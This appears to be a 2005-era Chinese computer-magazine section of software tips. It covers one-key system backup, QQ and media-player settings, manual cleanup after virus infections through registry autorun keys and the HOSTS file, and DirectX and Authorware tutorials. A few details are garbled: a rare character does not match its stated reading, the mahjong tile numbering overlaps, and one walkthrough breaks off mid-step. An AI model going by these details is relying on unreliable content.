第三步：把光盘从光驱中取出后重启系统，可以看到启动时会提示“To Start The System [BACKUP&RESTORE] Program, Press F11”字样，这时按下 F11 键即可启动一键恢复主程序。由于是第一次使用，OneKey 会检测到系统中没有备份文件，单击“确定”按钮，软件会提示输入管理员密码，默认密码为“123”，输入后进入管理界面。

第四步：备份系统。单击“备份”按钮，然后在“我准备备份”下拉框中选择要备份的分区，例如系统盘“C”。再单击“确定”按钮，软件就会自动用 Ghost 软件对 C 盘分区进行压缩备份，并将备份文件保存到专用的备份分区中（见图2）。



第五步：恢复系统。在启动系统出现提示信息时按下 F11 键，启动一键恢复程序，这时可以看到“正在进入系统”的滚动条提示信息（见图3），这时如果不做任何操作，OneKey 就会自动启动 Ghost 进行系统恢复操作，恢复完毕后系统会自动重启；如果你在滚动条没有走到尽头前按下 Esc 键，可直接退出软件，不进行任何恢复操作；如果在此时按下 HOME 键，则可在输入密码“123”后，进入管理界面。



### 中鸟进阶篇

中鸟当然不能仅仅停留在上面这几个小功能上，而要更深入地使用软件的一些功能，需要进入软件管理界面，在这里可以对 OneKey 的参数进行调整设置。

#### 1.工作模式切换

OneKey 具有两种工作模式：简单模式和高级模式。简单模式下启动时按 F11 热键，OneKey 会在滚动条显示完毕后自动进行系统恢复，减少操作的麻烦，这也是 OneKey 默认的工作模式。而要想切换为高级模式，则只要进入管理界面，然后在显示滚动条时按下 HOME 键，进入管理界面，在该窗口中单击“系统设置”按钮，设置“系统模式”为“高级模式”（见图4）。注意，在“高级模式”下，每次启动电脑，按下 F11 键后，都要输入密码，然后打开管理界面。



可以在 OneKey 中随时调整。单击“分区设置”按钮，然后在“将它调整为”后面输入新的大小数值，单击“确定”按钮即可（见图5）。



#### 2.备份分区管理

如果专用备份分区大小不够用，我们还可以...

> **小提示**
在这个界面中单击“卸载”按钮，OneKey 就会自动进行卸载，包括卸载F11热键功能以及删除备份分区，此功能慎用，这将会直接删除备份分区中的所有文件。

### 老鸟传经

多分区备份恢复——OneKey 不同于其他一键恢复类工具的主要区别。要实现这个功能，首先需要使用 OneKey 的“备份”功能将多个分区都备份到专用分区中，OneKey 会自动为不同分区的备份文件命名管理，这样不会导致冲突。然后将 OneKey 工作模式调整为“高级模式”，这样在按下 F11 热键后可以直接进入到管理界面，而不会自动执行恢复操作。在管理界面中单击“恢复”按钮，再单击“我准备恢复”下拉框，选择恢复的分区，这时 OneKey 会使用对应的备份文件进行自动恢复。同时，在这个界面中也可以恢复 CMOS 参数。

（自由风数码 徐海斌）

## 享受多人的音频聊天

以前 QQ 只能两个人进行语音聊天，而在 QQ2004II Beta3 版中，则可进行多人同时语音聊天。

第一步：打开聊天窗口，在“语音视频聊天”选项中选择“多人超级语音”（见图）。


第二步：选择加入语音聊天的好友，注意只能添加使用 QQ2004II Beta3 的好友。

第三步：现在就可以进行多人语音聊天了，如果不想聊天时，点击“挂断对话”就可以退出多人语音聊天了。

（辽宁 二手三好街）

## 免费得QQ高级群

随着 QQ2004II Beta3 的出炉，腾讯推出了“群 3.0”，新增了 BBS、相册、共享网络硬盘等功能，但容量都有限。如果想让空间变得更大，则需要用 Q 币申请高级群。不过现在腾讯的高级群可以免费体验到 2005 年 2 月 8 日，想不想试试？

第一步：双击群图标，打开群聊窗口。

第二步：点击“登录群社区”按钮（见图），登录群主页。



第三步：点击左侧的“体验高级群”按钮，同意腾讯的协议后就成为高级群了。

（河北 闫艳力）

## 用暴风影音体验完美视频效果

很多朋友都用“暴风影音”来看AVI文件，那么如何让它提供最佳的视频效果呢？注：本文介绍的方法对电脑配置有一定要求，电脑配置较差的用户不推荐使用。

- 第一步: 播放任意AVI视频文件，右击播放窗口，选择“缩放→100%”，同时将“视频框架”设置为“标准尺寸”，最后再去掉右键菜单中“视频框架→维持纵横比”项的勾选。
- 第二步: 选择菜单中的“查看→选项”，在“选项”窗口中点击“回放→输出”，设置“输出”为“覆盖合成器”（见图1），完成后关闭“暴风影音”。
- 第三步: 选择“开始”菜单下的“暴风影音5→暴风影音综合设置”（或“My MPC系列·暴风影音→暴风影音综合设置”），然后点击“FFDShow 视频设置”按钮。
- 第四步: 在“ffdshow 属性”窗口左侧勾选“重订尺寸/纵横比”，在右侧勾选“调整尺寸”，并“指定尺寸”为你的最终分辨率，如1024×768，并选择“始终调整尺寸”项（见图2）。
- 第五步: 在窗口左侧选择“重订尺寸/纵横比”项下的“设置”，将“模式”设置为“Lanczos”（此模式相对稳定，效果也不错），点击“确定”。
- 第六步: 此时回到“暴风影音设置程序”窗口，勾选“设置解码器切换”，点击“下一步”，在“选择解码器选项”中确认所有的主解码器都为“FFDShow”即可（见图3）。
- 第七步: 重新打开“暴风影音”，现在就可以体验完美的视频效果了。







小编有话说：是不是很好奇，为什么可以提升画面效果呢？本期“CFan加油站”栏目中的《用好显卡的Resize功能》一文会告诉你原因。另外，不管是什么播放器，FFDShow解码器部分的设置是完全一样的。

## 让暴风影音使用WinAMP的DFX插件

相信用过WinAMP的人，都应该知道DFX音频插件，现在这个插件已经非常流行，下面我们就让“暴风影音”也用上这款插件。而使用的方法也是通过设置FFDShow来实现的。另外本文介绍的音频插件不仅播放AVI格式时起作用，对于RMVB等视频文件及MP3等音频文件同样有效果。

小提示 FFDShow已经内置一些免费的音频插件，下面主要介绍的是如何使用DFX插件。

- 第一步: 从 http://www.onlinedown.net/soft/18127.htm 下载 DFX for Winamp 汉化版；从 http://www.newhua.com/cfan/200501/HA-ow21-FS.cab 下载 iZotope Ozone for Winamp 的汉化版。这两款插件都是音频插件，前者比较有名，而后者的功能更强大，效果更好。
- 第二步: 在“暴风影音”的 Codecs 文件夹下建立 Plugins 子目录，安装第一步中下载的两个插件至 Winamp 插件目录，或是其他任意目录中，最好将两个插件安装到一起，以方便复制。
- 第三步: 将安装好的所有插件文件复制到刚刚建立好的 Plugins 子目录中（如 C:\Program Files\Ringz Studio\Storm Codec\Codecs\Plugins\），要复制的文件包括 DFX 及 Ozone 目录，ssp_izOzone.dll 及 dsp_dfx.dll 文件。
- 第四步: 选择“开始”菜单下的“暴风影音5→暴风影音综合设置”（或“My MPC系列·暴风影音→暴风影音综合设置”），然后点击“FFDShow 音频设置”按钮，打开“ffdshow audio 属性”窗口。
- 第五步: 在窗口左侧勾选 WinAMP 2，然后在窗口右侧勾选 WinAMP 2 DSP 项，并点击其下的路径设置按钮，将目录设置为“暴风影音”的 Codecs 文件夹（如 C:\Program Files\Ringz Studio\Storm Codec\Codecs\），这时就可以看到 DFX 及 iZotope Ozone 两款插件选项了（见图1），选好插件后，点击“确定”。
- 第六步: 此时回到“暴风影音设置程序”，勾选“常规音频设置”项，点击“下一步”，设置好“扬声器/混音设置”，选择好“立体声”，并勾选“启用FFDShow对非压缩音频的支持”项即可（见图2）。
- 第七步: 播放视（音）频，所选的音频插件也会随之打开，现在听听看是不是有种电影院的感觉？





小提示 在播放任何音频时都用DFX 打开“暴风影音设置程序”，勾选“常规音频设置”项，点击“下一步”按钮，然后勾选“启用ffdshow对非压缩音频的支持”即可。

### 小贴士技巧

- 1. 解决资源占用 画质变好了，音频也用上插件了，速度也慢了，如何解决这个问题呢？当然是让“暴风影音”占用更多的资源：打开“暴风影音”，选择菜单中的“查看→选项”，勾选“播放器”下的“提高处理进程优先级(高于普通)”项即可。不过配置实在是低的话，使用这个方法也没用，甚至可能出现语音与画面不同步的现象。
- 2. 快速调节视频、音频设置 我们在用“暴风影音”播放视频时，系统托盘会显示FFDShow的视频、音频按钮，右击该按钮，通过选中或去除一些项目的勾选，可以实现快速打开或关闭某种效果。双击按钮，可以打开视频或音频的设置窗口，非常方便，以实现快速调节。
- 3. 高配置电脑音频设置推荐 打开“暴风影音设置程序”，点击“FFDShow 音频设置”按钮，在弹出窗口左侧选择“输入/输出”项，去除所有“16位整数”、“24位整数”的勾选，仅保留“32位整数”和“32位浮点”的勾选即可。如出现问题，恢复默认即可。
- 4. 减少视觉垃圾 当你在播放电影时，右击系统托盘的FFDShow图标，可以快速启用或关闭一些效果项。但不管是音频FFDShow图标，还是视频FFDShow图标，里面的项目都很多。如果你想只让它们显示出有用的项目，则可打开“暴风影音设置程序”窗口。点击“FFDShow 视频设置”按钮，在窗口左侧点击“显示/隐藏滤镜”。接着，在窗口右侧将“可见滤镜”中的内容移到“可用滤镜”中即可。同理，在“暴风影音设置程序”窗口，点击“FFDShow 音频设置”按钮，按视频设置的方法进行修改即可。

## 软件·实用软件

一天编务MM拿着一封读者来信，来问小特其中的一个字怎么读，虽然小特我也不知道怎么读，但这也当然是难不倒我这个五笔高手啦……

拿过一个生僻字，要了解它的读音就要先输入，相对来说，五笔输入法更简单，而拼音输入法要麻烦一些。我们下面就以“罡”字为例，告诉大家如何在不同输入法中解决这个问题。

### 1. 五笔解决方案

小特用极点五笔输入法(下载地址:http://www.onlinedown.net/soft/25712.htm), 遇到这种问题自然很轻松, 只要输入LFCO, 就会出现“罡”字, 再按下Ctrl + ? 就会显示出读音“pi2”(2表示二声)(见图1)。



小编提示: 很多五笔都具有拼音反查功能, 比如智能五笔、万能五笔等。

### 2. 拼音解决方案

小编刚刚帮编务MM解决完问题，边上的Cornel就走了过来：“别以为只有五笔可以, 我用的微软拼音照样解决这个问题, 而且方法还倍儿简单。”

首先，切换到微软拼音，然后点击“开启/关闭输入板”按钮，打开输入板，将“罡”用鼠标“写”好，再将鼠标指针悬停至右侧检索窗口中的“罡”字上，就可以看到该字的拼音了(见图2)。



小编提示: 如果你使用的系统为Windows XP以下版本，则可能无法打开输入板功能，这时你可以从http://www.onlinedown.net/soft/19694.htm下载免费的微软拼音2003版。

### 3. 了解字意

小编和Cornel正聊的开心，柳絮飞又凑了过来：“你们知道这个字是什么意思吗？不知道了吧，告诉你们，用金山词霸就能查到。”

如果你拼音不好，想听听这个字怎么读，而且还想了解一下这个字的意思，很简单，只要你安装了金山词霸，然后可以把刚才的字输入到词霸中，按下回车后，就可以看到该字的解释意思了。按下“朗读”按钮，就可以让词霸读出输入的文字(见图3)。



小编提示: “金山词霸”里面集成了很多词典，有时取词取不到的，但可以查询到，而自带的“高级汉语词典”则是一本电子汉语辞典。

(小特)

## 给MSN Messenger 7.0补上手写功能

上海读者祝永康: 我在公司装了MSN Messenger 7.0 Beta版, 发现有些同事的电脑中可以使用“手写”功能, 而我的电脑则无法使用, 请问这是怎么回事?

MSN Messenger 7.0 Beta(以下简称MSN)版新增了手写功能，可是不少朋友安装后，并没有找到这个功能。不少人认为只要安装了Office 2003，就能使用手写功能，可是为了一个手写功能就升级Office实在没有必要。于是就出现了一种新的解决方案——安装MSN PLUS，然后再安装MSN Handwriting(下载地址: http://www.msner.com/Soft_Show.asp?SoftID=188)。不过这种方法仅适用于Windows XP, 而且此方法也并不是MSN自带的手写功能。经过搜索，最终发现，原来是没有安装Windows Journal Viewer所致。解决方法如下: 确认MSN已经关闭，然后从http://www.newhua.com/cfan/200501/setup.exe下载Windows Journal Viewer，并安装，完成后，打开MSN，就可以开始“手写”了(见图)。



(神农)

## 病毒后遗症

手动解决病毒的能力是区分菜鸟和高手的标志之一。因为杀毒软件仅能杀毒，但是很多病毒除了破坏行为外，还会对系统产生影响，大致表现为残留文件及修改系统文件、注册表。

对于“残留问题”，一般表现为残留病毒副本文件，残存服务、键值等。而所谓的修改系统，一般指修改文件关联、添加启动键值等。

病毒种类繁多，破坏手段也是各自相异，很难总结出一个通性通法来处理所有问题。但是实践证明尽量多的积累手动处理病毒的经验方法是十分必要的，除非你愿意每次中毒都重装系统。

### 病毒都干了些什么？

虽然新病毒层出不穷，但其破坏手段是有共性一面的(当然病毒未必是“破坏”这些目标，只是借助于修改这些系统关键文件来更好实现自身某些行为)：修改系统配置文件、修改注册表、修改文件关联、捆绑文件、修改本地HOST文件(常见于恶意网页实现自己的恶意指向)。

由于病毒修改了上述文件，而一些杀毒软件不能修复这些错误，所以可能会出现以下问题:

- 1. 启动系统后，提示XXX文件找不到；
- 2. 不能进入系统(可能是不能启动或者不能进入系统界面)；
- 3. 可以进入系统，但是系统提示错误(文字提示或系统报错声音提示，可通过“事件查看器”查看没有正确启动的服务)；
- 4. 文件关联错误，文件不能正常打开；
- 5. 网络功能不正常，比如不能正常升级病毒库或浏览网页(由于修改了HOST文件，造成错误的指向)。

### 修复被病毒破坏的系统

明白了一般病毒的典型破坏办法，我们总结病毒“后遗症”的解决办法如下:

### 1. 找不到文件

遇到这种情况，根据不同系统，需要注意的内容也不同。

Windows 9x/Me: 系统目录中Win.ini的[windows]字段下load=和run=两项后面是否为空白(如果有，则删除去); 系统目录中System.ini的[boot]字段下shell=Explorer.exe项及[386Enh]字段也是应该注意的。上述位置修改后，如问题没有解决，就要用Windows安装盘覆盖安装一次，进行修复了。

Windows 2000/XP: 应注意的文件有Autoexec.bat、Config.sys以及Winststart.bat，除此之外，还有一些加载项已经移动到注册表中，需要注意的注册表项有:

[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows], 其下的Load键就是自动加载的项目命令行, 默认键值应为空。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon], 其下的shell键就是系统“外壳”, 其默认键值应该为“C:\Windows\explorer.exe”(不含引号)。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run], 每个键值对应一个自启动程序，对所有用户长期有效，如果进入系统后，马上弹出有文件未找到，但系统的运行没有问题，遇到这种情况，你就需要在此项中修改了。当然，除此注册表中的内容外，还要注意“开始”菜单中“启动”项下的内容。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices], 所有用户长期有效, 默认Windows 2000专业版有此项, 默认为空白, Windows XP无此项, 如果出现可以删除。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce], 所有用户下次启动加载一次其中的程序, 默认应为空白。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce], 所有用户下次启动加载一次, 默认Windows 2000/XP都无此项, 如果出现可以删除。

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run], 每个键值对应一个自启动程序, 对当前用户长期有效。

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce], 对当前用户下次启动时加载一次。

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]，对当前用户长期有效。

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]对当前用户下次启动时加载一次。

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\ShellExecuteHooks], 根据CLSID，实现调用ShellExecuteHooks接口以加载COM对象，默认有键名为“{AEB6717E-7E19-11d0-97EE-00C04FD91972}”，键值为空的键。

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]，这个是系统“服务”的位置，对于病毒残留的服务项目，通过“事件查看器”(一般病毒删除后，加载的服务都会出错，体现在事件查看器)找到出错。

### 实战排障

为了让大家有些具体感官印象，下面就常见病毒简单举些例子。

### 1. 五毒虫

由于该病毒会向注册表的[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows]中添加"run"="RAVMOND.exe"键，而有些杀毒软件清除病毒后，并没有删除该键，因此进入系统后，会提示找不到文件RAVMOND.exe，这时只要删除即可。另外病毒还会创建名为"Windows Management Protocol v.0 (experimental)"和"_reg"的两个服务，服务对应的病毒文件名为msjdbc11.dll和ondll_server。清除病毒文件后再次进入系统会发现系统出现报错的声音，但并没有文字提示，于是进入“控制面板”，打开“事件查看器”，发现服务运行错误，而服务名就是"Windows Management Protocol v.0 (experimental)"和"_reg"，打开“控制面板→管理工具→服务”，会发现这个“_reg”服务排在最上面，但是微软操作系统默认的“服务”没有以下划线起名的，因此比较容易判断是不是系统或者正常软件“服务”，然后进入注册表[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]项，找到相关名称删除即可。而“Windows Management Protocol v.0 (experimental)”服务由于名称上具有一定的迷惑性，因而可能有些用户在这样的情况下不敢轻易删除，其实大可不必，因为“服务”已经出错了，就算不删除也不会正常工作的。

- 1. 不能浏览某个(些)特定网址
这种情况，可以检查本机HOST文件，修改恢复即可，位置在C:\Windows\system32\drivers\etc(Windows XP操作系统)，注意该文件没有扩展名，用“记事本”打开该文件后修改即可，一般只保留其中的“127.0.0.1 localhost”(不含中文引号)一行即可。
- 2. IE故障
IE的修复技巧我们已经在2004年第23期《杀毒后的处理——IE修复技巧三则》中进行过介绍，这里不再重复。

### 2. MSN尾巴

该病毒会将注册表[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]中“Userinit”键的键值从“%System%\userinit.exe”改为“%System%\userinit32.exe”，让用户无法进入系统。解决办法是用系统启动光盘启动到故障修复控制台，然后输入以下命令

```
cd system32
copy userinit.exe userinit32.exe
```

重新启动即可(此方法仅适用于Windows 2000/XP)。

关于病毒“后遗症”的处理，是我们每个人都可能会遇到，并值得关注的。由于病毒破坏特点千变万化，而且涉及方面较多(比如病毒导致系统瘫痪恢复系统一块，实际上属于“数据恢复”层面的专业内容)普通用户在一定程度上难以驾驭。所以，经常备份才能保证系统安全。

(宁夏 干堆栈)

## 麻将对对碰 游戏自己编

在这篇文章中我将向大家介绍麻将对对碰游戏的完整制作过程。这个游戏有点类似于早期街机上四川麻将的玩法，从四周找起，找到两个一样的就可以用鼠标左键确认消除。每人每次有60秒的时间去完成。此外，按下F1键可以重新开始，ESC退出游戏。我把游戏做成可以允许两个玩家轮流游戏的竞赛方式，这样你就可以和你的女朋友一起玩，省的她总是埋怨你忙着玩游戏而忽略了她的存在。

本游戏是用Visual C++ 6.0、DirectX SDK 7.0编写的。

### 1. DirectX SDK

首先介绍一下DirectX SDK。DirectX SDK是微软推出的一套在Windows中开发多媒体程序的API函数集，可以在www.microsoft.com/windows/directx/default.asp上免费获得，目前最新版本是9.0。

在DirectX SDK的帮助下，程序员可以专注于开发游戏本身，涉及到2D、3D、声音以及网络等的功能，只要直接调用相应组件即可。我们的麻将对对碰只用了其中的图像功能。

### 2. 在VC中配置DirectX SDK

首先安装DirectX SDK。之后，需要在Visual C++中配置一下，指定它的路径：依次选择“工具”、“选择”菜单，在“目录”页中的Include files中添加DirectX SDK的Include目录，然后在Library files中添加DirectX SDK的Lib目录。

### 3. 编写游戏

首先在Visual C++中建立一个空的Win32 Application工程。接着，往工程中加入stdafx.h文件，并且在stdafx.h文件中加入#include <ddraw.h>，表示将要使用DirectDraw组件。在向工程中加入资源文件后，使用Alt+F7调出设置对话框，在General下的Microsoft Foundation Classes选择use MFC in a Static Library。然后加入Dxguid.lib和ddraw.lib。

之后为工程建立一个窗口类，在窗口类的头文件中把构造函数声明修改为public。接下来我们还要定义一些函数和变量，其中DXInit()为DirectDraw的初始化函数，它是DirectX编程的核心，所有的绘图初始化都在其中。当然，DXInit()只是建立了主绘图页、实现后缓冲区和主绘图页的连接，并没有建立幕后内存区。函数loadbmp()中实现了建立幕后内存区和显示位图的功能。

如何使用这三个绘图页呢？为了避免闪烁现象，我们首先把位图贴到幕后内存区中，然后在贴到后缓冲区，再利用翻页的方式绘出要显示的位图内容。以上操作分别由BitFast()贴图函数和Flip()翻页函数完成。具体的使用方法，请参阅有关资料。

为了方便以后的游戏操作，我就麻将图像排成序号：1 – 9代表1 – 9万、10 – 18代表1 – 9条、19 – 29代表1 – 9饼、28 – 34分别代表东、南、西、北、中、发、白。这样作的好处是简化了判断条件成立的条件，因为麻将每张都有四个，所以在麻将信息中加入了n用来判断该张发出的次数，h是用来存放麻将的类型。

接着使用“插入”、“新建类”建立应用程序类，在Class type对话框中选择Generic Class，在Name中输入类名CMajiangApp，在Base class(es)中的Derived From中输入CWinApp。

然后分别为工程添加WM_CREATE、WM_TIMER消息并填写相应代码，从而可以在屏幕上显示LOGO和麻将图像了。

游戏的主要功能是在play()中完成的，代码非常简单，核心问题就是如果判断所选两个麻将是否相同。这个过程请参见2004年18期程序谷刊登的《用VC作的一个扑克游戏》一文中的方法。

为了响应快捷键，向工程加入WM_KEYDOWN消息；为了实现右键取消功能，为工程加入WM_RBUTTONDOWN消息；为了实现左键选择功能，为工程加入WM_LBUTTONDOWN消息。最后加入fp()发牌函数、Scoreshow()和timeshow()函数，这样就可以实现游戏的功能了。

### 4. 小结

这个游戏主要应用了当前比较流行的DirectX技术。如果你有兴趣，可以把它改成网络版，或者可以加上音效。欢迎到我的主页交流，网址是：http://guyu5273.91x.net/。

(辽宁 肖占龙)

## 文件型病毒的清除

所谓文件型病毒是指寄生在正常可执行或动态链接库文件(如COM、EXE和DLL)中，通过运行被感染的文件而激活的一种病毒。虽然现在的电脑病毒越来越向着网络化蠕虫类发展，但仍然还有许多文件型的病毒横行。

由于许多用户对查杀文件型病毒存在误解，因此这类病毒往往被认为很难清除，最终只得重装系统。其实只要注意以下几点，此类病毒还是很容易被清除的。

- 1. 文件型病毒都驻留内存，在正常模式下，由于带毒文件正在运行，无法对这些文件直接进行操作。从现今的反病毒技术和病毒来看，绝大部分病毒都不可能在正常模式下简单地就可以彻底清除，所以清除文件型病毒最好在DOS模式下操作。
- 2. 许多文件型病毒也会通过网络感染，所以杀毒时一定要断掉网络连接(拔掉网线)，特别在局域网中，一定要把所有电脑上的病毒全都查杀干净以后才可以连网，否则一台刚刚杀过毒的电脑可能被再次感染，这点一定要注意。如果你面对的是一个中大型的局域网，可以考虑购买企业版(网络版)的杀毒软件进行管理。
- 3. 由于文件型病毒都是要对宿主文件(也就是要被感染的文件)进行修改，把自身代码添加到宿主文件上，所以会造成一些结构比较复杂的文件损坏，比如一些自解压缩文件(通常是一些软件的安装文件)、带有自校验功能的文件无法运行，当它感染了系统文件，还会造成系统问题(比如经常出现“非法操作”等)。出现的这些症状即使用杀毒软件把病毒清除干净了也没法修复，这并不是杀毒软件把文件“杀坏”了，而是感染这个病毒时就已经损坏了。 这时只能用以前的备份文件替换掉损坏的文件。

(瑞星工程师 史瑀)

# Authorware：不会编程也能制作专业多媒体

笔者第一次接触到多媒体，是上学时买的一套多媒体光盘，它集成了图像、动画、声音、文字等多种元素，使得学习的过程有声有色，比如：在学语文时，有配乐朗诵；学化学时，只要动动鼠标就可以做氧气燃烧等各种化学试验；做数学题时它能帮我判断对错并提示出错原因等。当时就想，编制多媒体光盘的程序员们，真的是太神奇了！直到后来学会了Authorware，才发现不会编程也能制作多媒体光盘，其实我也可以这么牛的！

注：本文涉及到的程序、素材可在http://www.newhua.com/cfan/200501/AWsource.rar处下载

# 整装待发，简简单单做准备

实例描述：我用Authorware制作的第一个完整的软件，是一个多媒体相册，别看它小，功能却很完备，可以通过鼠标点击或使用热键的方式自由浏览照片，照片切换的时候还能显示多个又酷又炫的过渡效果，浏览的过程中还有优美的音乐一路伴随呢。希望这个实例也能成为你学习Authorware的一个好起点。

如图1所示，是这个多媒体相册最终效果的截图。



首先为本项目建立一个文件夹（本例中为“D:\dzxc”），在其下再建两个子文件夹Photo和Other，子文件夹分别存放将要显示的照片和主界面素材。

# 1. 准备背景图片和音乐

用Photoshop之类的图像处理软件制作一幅640像素×480像素大小的图片，将其命名为bg.jpg；准备一个MP3格式的音乐文件，将其命名为yy.mp3。将这些素材都复制到“D:\dzxc\other”文件夹中。

# 2. 按钮图片的制作

找三张尺寸相同、形态稍有差异的图片（建议用PhotoImpact制作，其中带有大量按钮模板），分别命名为First.jpg、First_down.jpg和First_over.jpg（见图2），该组图片将用于显示“第一张”按钮的三种不同状态。用同样方法制作另外四组图片：Prv.jpg、Prv_down.jpg和Prv_over.jpg对应于按钮“上一张”；Next.jpg、Next_down.jpg和Next_over.jpg对应于“下一张”；Last.jpg、Last_down.jpg和Last_over.jpg对应于“最后一张”；Exit.jpg、Exit_down.jpg和Exit_over.jpg对应于“退出”。将这五组按钮图片全部复制到“D:\dzxc\other”中。



# 3. 把你的照片放进相关文件夹

准备好你的照片，以JPG格式保存于“D:\dzxc\Photo”文件夹中。本例以五张花卉图片为例，分别命名为Pic01.jpg、Pic02.jpg、Pic03.jpg、Pic04.jpg和Pic05.jpg。

# 实战操作，轻轻松松做软件

第一步：启动Authorware 7.0中文版后会弹出新建对话框，点击“不选”按钮新建一个空白的文件。再单击菜单命令“文件→保存”将新建文件保存为dzxc.a7p（保存于上面所建立的“D:\dzxc”文件夹中）。在其属性面板（如果属性面板没有显示，可按Ctrl+I键将其调出）的“回放”选项卡中，将大小设置为“640×480（VGA,Mac13）”，单击勾选“屏幕居中”项，并清除掉其他选项（见图3）。



第二步：用鼠标按住声音图标（图标工具箱右侧第五个）不放并拖动到设计窗口的主流程线上，放开鼠标键时则主流程线上会增加一个声音图标。默认图标名称为“未命名”，双击图标名称可以输入新的名字，本例将其改为“背景音乐”（见图4）。点选“背景音乐”图标，在其属性面板中单击“导入”按钮，在打开的浏览窗口中点选“链接到文件”项，再选中上面已准备好的声音文件（D:\dzxc\other\yy.mp3），单击“导入”按钮返回设计窗口。单击声音属性面板上的“计时”选项卡，选择执行方式为“永久”，将播放设置为“直到为真”，并在条件框中输入“FALSE”（不含引号）。



第三步：在主流程线上拖放一个显示图标，命名为“背景图片”。双击这个图标打开演示窗口，接着单击菜单命令“插入→图像”，在弹出的图像属性窗口中单击“导入”按钮，然后以“链接到文件”的方式导入前面已准备好的背景图片bg.jpg。按“确定”返回后，再拖动图片调整其位置，让它恰好覆盖整个演示窗口。按Ctrl+B键返回设计窗口。

第四步：拖放一个框架图标到主流程线上，命名为“影集”，接着在“影集”图标右侧拖放五个群组图标（根据照片数目而定），分别命名为“照片1”、“照片2”、“照片3”、“照片4”和“照片5”。至此，本例主流程线上的图标设置完毕。

第五步：双击“照片1”图标，打开二级流程线设计窗口，并拖入一个显示图标，命名为“照片”（见图5）。双击“照片”图标，在演示窗口中导入前面准备好的图片Pic01.jpg。拖动图片可移动它的位置，点选图片后它的四周会显示八个锚点，拖动锚点可调整图片的大小。



双击主流程线上的“背景图片”图标显示出背景图片，然后用鼠标点击设计窗口的标题条返回（不要按Ctrl+B键返回），再按Shift键不放并双击二级流程线上的“照片”图标，这样可使照片与背景图片同时显示在演示窗口中，此时即可以背景图片为参照，调整照片的大小及位置，使其正好填充在背景图片中的像框内。以同样的方法为“照片2”、“照片3”、“照片4”和“照片5”上也插入对应的照片（Pic02.jpg、Pic03.jpg、Pic04.jpg、Pic05.jpg）。

第六步：Authorware中预置了好几十种转场效果供选择，合理使用能让多媒体相册更富有情趣。双击“照片1”中的“照片”显示图标打开该照片，在其属性面板中单击“特效”右侧的按钮打开一个窗口，选择某一特效后单击“应用”按钮可即时预览效果。如对所选的效果感到满意的话，单击“确定”返回即可。以同样的方法为其他显示照片设置转场效果。

第七步：双击“影集”图标打开框架内部的导航设计窗口，点选其流程线上的“灰色导航面板”图标并按Del键删除它；将交互图标“导航超链接”改名为“播放控制”，并删除其中的“返回”(Go back)、“最近页”(Recent pages)和“查找”(Find)三个分支；在退出流程线上添加一个计算图标，将其命名为“结束”（见图6）。



第八步：单击“第一页”(First page)分支图标上方的小椭圆形（即按钮交互标志），在其属性面板的“按钮”选项卡的“鼠标”中设置“鼠标指针”为“鼠标指针(6)”（手型），并在“快捷键”框中输入“Home”；单击“按钮”进入按钮对话框，再单击“添加”打开按钮编辑对话框，分别点选“未按”、“按下”

# 哪些行业需要掌握Authorware

| 职业 | 用途 | 必备程度 |
| :--- | :--- | :--- |
| 家庭用户 | 娱乐休闲 | 基本操作:熟练使用显示图标、声音图标、框架图标，简单了解数字电影图标、群组图标、等待图标、运动图标、计算图标(只要会一句quit语句就行)等 |
| 老师 | 教学 | 除具备基本操作外，还需掌握交互图标、判断图标、擦除图标等，会调试程序查错，深入了解计算图标的使用，掌握常用内置函数的调用方法 |
| 软件开发者 | 开发软件 | 应熟练掌握所有的图标使用，熟悉常用的内置函数，了解如何扩展Authorware的功能，最好能会一门其他的高级语言，如VC、VB等 |

注：以上只是选择了三个最有代表性的用户群体，按初、中、高三级排列。实际上，许多行业都要用到Authorware，如企业培训、在线教学等。

| 实例编号 | 实例名称 | 实例功效 |
| :--- | :--- | :--- |
| 1 | 英语课件制作实战 | 不但有教与学的内容，还会出试题考你哦 |
| 2 | 迷你小游戏：大家来找X | 模仿街机上的游戏“找不同”，可以在MM面前炫一把了 |
| 3 | Authorware也做MTV | 个性化MTV，自唱自导自演 |
| 4 | 软件教学光盘 | 如果你是Photoshop(或其他软件)高手，不妨做一个教学光盘教教别人 |
| 5 | 你所想到的其他实例 | |

话说网上各大论坛正流行着这样一个贴子：有些人月薪一万，到了年底却无钱过年；有些人月薪不过一千却每月能存到银行八百元，甚至有存到九百的。这些人到底用的什么神秘方法，用的什么省钱高招呢？各位看官也许从下面的故事中能发现一点端倪......

# 麻辣水浒之Excel 2003

## 第一回 小试牛刀，Excel让你挣1000存900

黑旋风李逵跟女朋友巧儿商量结婚的事，却因为没钱买房闹得不欢而散，便一个人跑到水泊梁山集团所属的西山酒店喝闷酒，恰被酒店的副经理孙二娘看到，问他怎么回事。李逵如此这般诉说了一番，哪知孙二娘却哈哈笑了起来：“兄弟，女孩子都想有一个稳定归宿，没有房子心里如何踏实？其实你一个月也不少挣，几年攒下来贷款买房绝不是问题。我教你用Excel做一个收入/支出明细表吧，节约着点，我保证你挣一千能存九百。”李逵大喜：“太感谢二嫂了，下次我一定多带客户来这里吃酒。”吃罢饭，孙二娘便用他老公办公室里的电脑一步一步教起李逵来。



